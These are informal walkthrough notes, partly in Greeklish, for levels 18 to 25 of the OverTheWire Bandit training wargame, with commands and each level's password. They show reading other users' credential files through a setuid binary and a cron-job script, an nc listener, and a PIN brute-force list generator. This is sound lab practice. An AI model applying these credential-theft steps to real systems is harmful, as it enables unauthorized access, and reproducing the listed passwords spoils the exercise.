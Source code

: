 
To 19:
ssh bandit18@bandit.labs.overthewire.org -p 2220 cat readme
`IueksS7Ubh8G3DCwVzrTd8rAVOwq3M5x`


To 20:
./bandit20-do cat /etc/bandit_pass/bandit20

`GbKksEFF4yrVs6il55v6gwY5aVje5f0j`

To 21:
As kanoyme ena listener 
echo "GbKksEFF4yrVs6il55v6gwY5aVje5f0j" | nc -l localhost -p 61337 &

Ps aux 

Na doyme an eigne

Meta pame sto programa kai patame:
./suconnect 61337


Pwd:    `gE269g2h3mw3pwgrj0Ha9Uoqen1c9DGr`

21 to 22:

ls -l | grep cronjob

cat cronjob_bandit22

cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv

`Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI`



22 to 23:

`jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`



23 to 24:
mkdir /tmp/paok

chmod 777 /tmp/paok

vi get.sh
    `cat /etc/bandit_pass/bandit24 > /tmp/paok/thepassword.txt`

chmod +x get.sh

cat /tmp/paok/thepassword.txt

`UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`
24 to 25

  1 #!/bin/bash
  2 passwd="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
  3 for a in {0..9}{0..9}{0..9}{0..9}
  4 do
  5             echo $passwd' '$a >> combinations.txt
  6 done
